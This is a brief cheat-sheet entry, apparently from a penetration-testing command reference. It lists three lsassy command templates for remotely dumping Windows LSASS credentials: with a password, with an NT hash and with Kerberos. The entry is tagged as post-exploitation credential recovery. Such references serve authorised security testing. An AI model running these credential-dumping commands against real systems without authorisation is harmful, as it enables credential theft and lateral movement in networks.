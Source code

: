 # Lsassy

## Lsassy basic usage with password (ip or range)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
lsassy -d <domain_fqdn> -u <user> -p <password> <ip>
```

## Lsassy basic usage with hash (ip or range)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
lsassy -v -u <user> -H <nt_hash> <ip>
```

## Lsassy basic usage with kerberos (ip or range)
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
lsassy -d <domain_fqdn> -u <user> -k <ip_range>
```
